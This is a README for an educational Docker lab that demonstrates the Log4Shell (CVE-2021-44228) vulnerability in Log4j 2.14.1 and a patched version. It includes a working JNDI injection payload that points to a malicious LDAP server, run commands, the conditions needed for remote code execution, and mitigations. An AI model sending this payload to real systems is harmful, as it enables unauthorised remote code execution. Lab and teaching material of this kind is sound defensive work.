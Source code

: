 
# 🔒 Log4Shell Vulnerable Demo (CVE-2021-44228)

This project demonstrates how a vulnerable Java application using Log4j 2.14.1 can be exploited via JNDI injection to achieve Remote Code Execution (RCE), and how it can be fixed.

---

## 🔥 What This Demonstrates

- A Spring Boot app using **Log4j 2.14.1**
- Java runtime **1.8.0_131** (vulnerable version)
- `LDAPRefServer` (from [marshalsec](https://github.com/mbechler/marshalsec)) simulating a malicious LDAP redirect
- A custom `Exploit.class` that triggers RCE when loaded

---

## 🛠️ Project Structure

```
.
├── vulnerable
│   ├── web
│   │   ├── src
│   │   │   └── main
│   │   │       ├── java
│   │   │       │   └── com
│   │   │       │       └── example
│   │   │       │           ├── Application.java
│   │   │       │           └── LogController.java
│   │   │       └── resources
│   │   │           └── log4j2.xml
│   │   ├── Dockerfile
│   │   └── pom.xml
│   ├── ldap
│   │   ├── Dockerfile
│   │   └── Exploit.java
│   └── docker-compose.yml
├── fixed
│   ├── web
│   │   ├── src
│   │   │   └── main
│   │   │       ├── java
│   │   │       │   └── com
│   │   │       │       └── example
│   │   │       │           ├── Application.java
│   │   │       │           └── LogController.java
│   │   │       └── resources
│   │   │           └── log4j2.xml
│   │   ├── Dockerfile
│   │   └── pom.xml
│   └── docker-compose.yml
```

---

## 📚 Overview

- `vulnerable/` contains an intentionally insecure app using Log4j 2.14.1 and Java 8u131.
- `fixed/` contains the mitigated version using Eclipse Temurin Java 17, Log4j 2.17+, and input validation.

---

## 🧩 How It Works

- The vulnerable app logs attacker-controlled input via Log4j.
- An LDAP server (running via Marshalsec) redirects the JNDI lookup to an HTTP server that serves a malicious `Exploit.class`.
- If vulnerable, the class is fetched and executed — demonstrating Remote Code Execution (RCE).

---

## 🛡️ Mitigations in Fixed Version

- Updated Log4j to a non-vulnerable version (2.17+).
- Replaced Java with `eclipse-temurin:17-jdk-alpine`.
- Disabled JNDI features implicitly via newer Log4j versions.
- Added input validation to block JNDI payloads.

---

## ⚙️ Running the Exploit Demo

```bash
cd vulnerable
docker compose up --build
```

Then visit:

```
http://localhost:8080/log?input=${jndi:ldap://ldap:1389/Exploit}
```

You should see a successful lookup followed by RCE confirmation in the logs.

---

## ✅ Confirm Exploit Execution

```bash
docker exec vulnerable-web-1 ls /tmp | grep pwned
```

You should see `pwned`, indicating the Exploit class executed.

---

## ✅ Success Indicators

- `💥 Exploit triggered` message printed from `Exploit.class`
- LDAP log shows redirect to Exploit.class
- Log4j version: 2.14.1
- Java version: 1.8.0_131

---

## ❌ Common Pitfalls

- Java version too new (must be Java ≤ 8u191 for exploit to work)
- `trustURLCodebase=false` prevents loading remote class (must be true or unset)
- Using Logback instead of Log4j

---

## 🔁 Exploit Flow

```mermaid
sequenceDiagram
    actor Attacker
    participant WebApp as Vulnerable Web App
    participant LDAP as Malicious LDAP Server
    participant HTTP as HTTP Server (Exploit.class)

    Attacker->>WebApp: ${jndi:ldap://ldap:1389/Exploit}
    WebApp->>LDAP: JNDI Lookup
    LDAP->>WebApp: LDAP redirect → http://web:8080/Exploit.class
    WebApp->>HTTP: Download Exploit.class
    HTTP-->>WebApp: Return bytecode
    WebApp->>WebApp: Execute static block (RCE)
```

---

## 🔥 Exploit Explanation

### CVE-2021-44228 — Log4Shell

A flaw in Log4j 2.14.1 allows attackers to send crafted input that triggers a JNDI lookup, fetching malicious code from an attacker-controlled server.

---

## 🛡️ Mitigations

| Mitigation | Description |
|------------|-------------|
| **Upgrade Log4j** | Use version 2.17.0+ |
| **Upgrade Java** | Use Java ≥ 8u191 |
| **Disable Lookups** | `-Dlog4j2.formatMsgNoLookups=true` |
| **Block Remote Codebases** | `-Dcom.sun.jndi.ldap.object.trustURLCodebase=false` |
| **Input Sanitization** | Avoid logging unsanitized user input |

---

## 📚 References

- [Apache Logging Services](https://logging.apache.org/log4j/2.x/security.html)
- [NIST CVE-2021-44228 Detail](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- [Log4j CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228)
- [Marshalsec LDAP server](https://github.com/mbechler/marshalsec)

---

## 🎓 Educational Purposes Only

**⚠️ This project is for educational and demonstration purposes only. Do not use in production.**

---

## 🧑‍💻 Author

**Timothy Brennan**  
For educational use in container security labs.

---